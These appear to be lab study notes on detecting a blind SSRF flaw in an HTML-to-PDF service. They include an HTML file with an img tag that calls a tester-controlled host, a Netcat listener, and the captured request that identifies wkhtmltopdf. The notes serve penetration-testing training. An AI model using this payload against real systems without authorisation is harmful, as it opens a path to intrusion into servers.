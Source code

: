     Burp Collaborator (Part of Burp Suite professional. Not Available in the community edition)
    http://pingb.in
Blind SSRF vulnerabilities could exist in PDF Document generators and HTTP Headers, among other locations.
#### Enumerate the web application
![[blind ssrf upload.png]]

If we upload various HTML files and inspect the responses, we will notice that the application returns the same response regardless of the structure and content of the submitted files. In addition, we cannot observe any response related to the processing of the submitted HTML file on the front end.

![[blind ssrf burp response.png]]
#### Create an HTML file containing a link to a service under our control to test if the application is vulnerable to a blind SSRF vulnerability
```html
<!DOCTYPE html>
<html>
<body>
	<a>Hello World!</a>
	<img src="http://<SERVICE IP>:<PORT>/x?=viaimgtag">
</body>
</html>
```
This service can be a web server hosted in a machine we own, Burp Collaborator, a Pingb.in URL etc. Please note that the protocols we can use when utilizing out-of-band techniques include HTTP, DNS, FTP, etc.
#### For this example, use a Netcat listener running on port 9090
```Shell
nc -nlvp 9090
```
Output:
```
listening on [any] 9090 ...
connect to [10.10.15.176] from (UNKNOWN) [10.129.201.238] 34142
GET /x?=viaimgtag HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,*
Host: 10.10.15.176:9090
```
By inspecting the request, we notice `wkhtmltopdf` in the User-Agent. If we browse wkhtmltopdf's downloads webpage, the below statement catches our attention:

`"Do not use wkhtmltopdf with any untrusted HTML – be sure to sanitize any user-supplied HTML/JS; otherwise, it can lead to the complete takeover of the server it is running on! Please read the project status for the gory details."`
